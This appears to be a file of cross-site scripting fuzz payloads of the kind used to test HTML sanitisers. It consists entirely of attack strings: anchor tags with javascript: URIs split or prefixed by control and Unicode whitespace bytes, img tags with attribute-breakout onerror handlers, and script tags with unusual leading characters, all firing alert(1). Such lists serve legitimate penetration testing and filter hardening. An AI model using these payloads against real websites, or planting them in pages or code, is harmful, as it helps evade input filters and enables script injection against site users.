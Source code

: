 <a href="\xE3\x80\x80javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x12javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x0Djavascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x0Ajavascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x0Cjavascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x15javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\xE2\x80\xA8javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x16javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x02javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x1Bjavascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x06javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\xE2\x80\xA9javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\xE2\x80\x85javascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x1Ejavascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\xE2\x81\x9Fjavascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="\x1Cjavascript:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="javascript\x00:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="javascript\x3A:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="javascript\x09:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="javascript\x0D:javascript:alert(1)" id="fuzzelement1">test</a>
<a href="javascript\x0A:javascript:alert(1)" id="fuzzelement1">test</a>
`"'><img src=xxx:x \x0Aonerror=javascript:alert(1)>
`"'><img src=xxx:x \x22onerror=javascript:alert(1)>
`"'><img src=xxx:x \x0Bonerror=javascript:alert(1)>
`"'><img src=xxx:x \x0Donerror=javascript:alert(1)>
`"'><img src=xxx:x \x2Fonerror=javascript:alert(1)>
`"'><img src=xxx:x \x09onerror=javascript:alert(1)>
`"'><img src=xxx:x \x0Conerror=javascript:alert(1)>
`"'><img src=xxx:x \x00onerror=javascript:alert(1)>
`"'><img src=xxx:x \x27onerror=javascript:alert(1)>
`"'><img src=xxx:x \x20onerror=javascript:alert(1)>
"`'><script>\x3Bjavascript:alert(1)</script>
"`'><script>\x0Djavascript:alert(1)</script>
"`'><script>\xEF\xBB\xBFjavascript:alert(1)</script>
"`'><script>\xE2\x80\x81javascript:alert(1)</script>
"`'><script>\xE2\x80\x84javascript:alert(1)</script>
"`'><script>\xE3\x80\x80javascript:alert(1)</script>
"`'><script>\x09javascript:alert(1)</script>
"`'><script>\xE2\x80\x89javascript:alert(1)</script>
"`'><script>\xE2\x80\x85javascript:alert(1)</script>
"`'><script>\xE2\x80\x88javascript:alert(1)</script>
"`'><script>\x00javascript:alert(1)</script>
"`'><script>\xE2\x80\xA8javascript:alert(1)</script>
"`'><script>\xE2\x80\x8Ajavascript:alert(1)</script>
"`'><script>\xE1\x9A\x80javascript:alert(1)</script>
"`'><script>\x0Cjavascript:alert(1)</script>
"`'><script>\x2Bjavascript:alert(1)</script>
"`'><script>\xF0\x90\x96\x9Ajavascript:alert(1)</script>
"`'><script>-javascript:alert(1)</script>
"`'><script>\x0Ajavascript:alert(1)</script>
"`'><script>\xE2\x80\xAFjavascript:alert(1)</script>
"`'><script>\x7Ejavascript:alert(1)</script>
"`'><script>\xE2\x80\x87javascript:alert(1)</script>
"`'><script>\xE2\x81\x9Fjavascript:alert(1)</script>
"`'><script>\xE2\x80\xA9javascript:alert(1)</script>
"`'><script>\xC2\x85javascript:alert(1)</script>
"`'><script>\xEF\xBF\xAEjavascript:alert(1)</script>